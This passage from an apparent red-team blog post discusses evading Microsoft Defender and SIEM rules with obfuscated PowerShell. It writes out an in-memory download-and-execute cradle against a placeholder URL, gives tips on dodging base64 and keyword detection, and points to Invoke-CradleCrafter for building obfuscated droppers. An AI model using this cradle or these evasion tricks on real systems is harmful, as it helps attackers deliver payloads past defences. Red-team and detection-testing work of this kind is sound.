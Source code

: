 <center><img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools-Part-1.md/launcher.png">
 </center>
</div>

I recommend to turn base64 off. It doesn't add anything to your obfuscation while trying to avoid Defender. It's just used because it's the easiest way to handle sending the command in a string. Once you have your obfuscated code you can re-encode it if you really want to use this method. <br/>
Most security related solutions created features for detecting base64 encoded strings and analyzing them after the content is decoded. CarbonBlack, FireEye made public their sollutions' capabilities in the past, being clear for us that the above arguments are using as a part of their detection rules: you can read more <a href="https://www.carbonblack.com/2015/08/14/how-to-detect-powershell-empire-with-carbon-black/" style="text-decoration: none;">here</a> and <a href="https://www.fireeye.com/blog/threat-research/2018/07/malicious-powershell-detection-via-machine-learning.html" style="text-decoration: none;">here</a>.  

<br/><br/>Now that I identified almost all the patterns that are triggering the Microsoft's signatures, let's talk about the dropper before starting with the demo.

### Dropper <br/>
Possibly many of you use the powershell command "IEX((New-Object System.Net.WebClient).downloadstring('http://something'));" for downloading in memory your payload. I worked in a SOC and I know the strings like "new-object", "Webclient", "downloadstring" are used by many for detecting suspicious events. I will make use of an open source <a href="https://github.com/danielbohannon/Invoke-CradleCrafter" style="text-decoration: none;">tool</a> made special for this kind of tasks.<br/>
Invoke-CradleCafter is a tool special created for automating the process for making obfuscated downloaders in memory or on disk. 

In my example I am using "MEMORY\PSCOMPILEDCSHARP\INVOKE\10". I invite you to take a look on it in case you are interested in using it. If you are a blue teamer, you may be interested in testing your detection capabilities of your SIEM/HIDS with Invoke-CradleCafter.
<br/> I can also obfuscate more the dropper with Invoke-Obfuscation, for escaping the most exotic SIEM/HIDS rules but I am not doing it this time. 

<div>